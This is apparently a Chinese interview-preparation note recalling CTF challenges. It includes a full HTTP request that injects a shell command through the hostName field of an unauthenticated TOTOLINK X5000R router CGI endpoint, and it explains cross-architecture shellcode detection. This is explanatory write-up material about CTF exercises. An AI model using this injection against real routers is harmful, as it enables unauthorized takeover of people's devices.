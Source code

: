 
## 面试问答准备
### ctf
+ ==在比赛中遇到印象深刻的题目？==

强网杯的赛题，2022 年的一道totox赛题，需要用三种方式去获取TOTOLINK x5000r的shell，实现页面劫持，固件类型是cgibin负责主要服务的方式，通过websGetVar获取参数，存在未授权的接口，在setopmode功能里

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.3.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 90
Origin: http://192.168.3.2
Connection: close
Referer: http://192.168.3.2/advance/time.html?time=1679126798322
Cookie: SESSION_ID=2:1679122532:2


{
	"proto":"1",
	"hostName":"';echo yichen > /tmp/1.txt;' ",
	"topicurl":"setOpModeCfg"
}
```

还有2022年的KOH赛题，MimicCode，一道跨架构shellcode，类似于拟态的效果，远程会调用用不同架构的shellcode执行程序去执行我输入的shellcode，对于异架构才用qemu模拟

```shell
# 环境配置
sudo apt install binutils-arm-linux-gnueabi
sudo apt install binutils-aarch64-linux-gnu
sudo apt install binutils-mips-linux-gnu

# MIPS 小端
sudo apt install binutils-mipsel-linux-gnu

# MIPS64 大端
sudo apt install binutils-mips64-linux-gnuabi64

# MIPS64 小端
sudo apt install binutils-mips64el-linux-gnuabi64
sudo apt install qemu-user qemu-user-static
```

其中主要的难点就是如果在shellcode执行的过程中去识别到不同的架构，来执行对应架构的shellcode
在 x86 下，段寄存器cs=0x23，赋值给ebx，eax-ebx\==0，不跳，执行 x32 shellcode
在 x64 下，段寄存器cs=0x33，赋值给ebx，eax-ebx\==0x10，跳转，执行 x64 shellcode
